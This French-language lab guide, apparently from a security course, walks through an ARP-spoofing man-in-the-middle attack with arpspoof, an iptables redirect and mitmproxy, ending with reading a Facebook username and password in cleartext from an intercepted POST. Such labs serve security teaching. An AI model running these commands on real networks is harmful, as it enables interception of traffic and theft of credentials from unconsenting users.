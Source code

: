 
# Machine ATTAQUANT ! 

## Étape 1 : Empoisonner les Tables ARP de Victim1

1. **Empoisonner la Table ARP de Victim1**

   - Exécutez la commande suivante sur la machine attaquant (`attacker`) :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
     ```
## Étape 2 : Empoisonner les Tables ARP de Victim2
2. **Empoisonner la Table ARP de Victim2**

   - Ouvrez un nouveau terminal sur `attacker`.
   - Exécutez la commande suivante :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
     ```

## Étape 3 : Configurer `iptables` pour Rediriger le Trafic HTTP

1. **Ouvrez un nouveau terminal sur `attacker`**.
2. **Exécutez la commande suivante pour rediriger le trafic HTTP vers `mitmproxy`** :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080
   ```

## Étape 4 : Lancer un Proxy MITM

1. **Sur la machine attaquant, lancez `mitmproxy`** :
   ```sh
   sudo mitmweb -p 8080
   ```

![image](https://github.com/hrhouma/securite-logiciels-applications/assets/10111526/86b6ef41-af7b-47f7-b787-b4bcfb2a2a28)


# IMPORTANT 1:
- Accéder à http://localhost:8081
- Cliquez sur le bouton mitmproxy
- Cliquez sur install Certificates
- Pour la première fois, vous auriez le message suivant :
  *If you can see this, traffic is not passing through mitmproxy*
- *Solution* : Configuer le proxy de votre machine attaquant en manuel sur l'adresse suivante: http://localhost:8080 ou http://127.0.0.1:8080 ou http://10.0.2.10:8080
- Revenir à l'interface et observer le traffic
- Ouvrir le navigateur de facebook
- Essayez de vous connecter (saisir votre username et password et connectez vous)
- Revenir à http://localhost:8081
- Dans l'onglet start, mettre le filtre sur facebook
- Cherchez le POST
- Observez le username et le password en texte claire
